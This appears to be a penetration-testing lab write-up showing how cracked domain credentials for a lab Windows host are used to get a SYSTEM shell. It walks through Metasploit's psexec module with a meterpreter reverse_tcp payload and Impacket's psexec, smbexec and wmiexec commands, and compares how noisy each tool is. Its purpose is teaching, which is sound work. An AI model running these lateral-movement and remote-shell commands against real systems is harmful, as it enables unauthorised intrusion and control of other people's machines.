

# Gaining Shell

After a successful crack, the attacker has:

| Data               | Value         |
| ------------------ | ------------- |
| Target IP          | `10.0.0.50`   |
| Domain             | `MO`          |
| Username           | `k.lamar`     |
| Plaintext password | `Password1!!` |

With valid domain credentials, an attacker can move laterally, access shares, or escalate privileges depending on the account's permissions.

What we can do with this credentials.


## Metasploit

If we have smb open ,username and password we can use those to gain shell especially if that user has local administratotion access.
Launch Metasploit: msfconsole
Search for the module: use exploit/windows/smb/psexec
Configure the target and your credentials:

```bash
msfconsole

search psexec
24 exploit/windows/smb/psexec
use 24

msf exploit(windows/smb/psexec) > set rhosts 10.0.0.50
msf exploit(windows/smb/psexec) > set smbdomain mo.local
msf exploit(windows/smb/psexec) > set smbpass Password1!!
msf exploit(windows/smb/psexec) > set smbuser k.lamar
msf exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/smb/psexec) > set target 2 (Exploit target: Native upload)

run
```


## Impacket

Impacket's psexec.py connects via SMB (port 445), uploads a binary to ADMIN$, registers it as a Windows service, and returns an NT AUTHORITY\SYSTEM shell.

```bash
# psexec — drops a service binary, returns SYSTEM shell
impacket-psexec DOMAIN/Username:Password@TARGET_IP

# smbexec — executes commands via SMB service (noisier but no binary drop)
impacket-smbexec DOMAIN/Username:Password@TARGET_IP

# wmiexec — uses WMI, quieter, returns a semi-interactive shell
impacket-wmiexec DOMAIN/Username:Password@TARGET_IP
```



as you can see wmiexec is not working in this case ,we can switch to the others

Tool Method Privilege Noisiness
psexec SMB service + binary drop SYSTEM High
smbexec SMB service (no binary) SYSTEM High
wmiexec WMI Admin user Medium
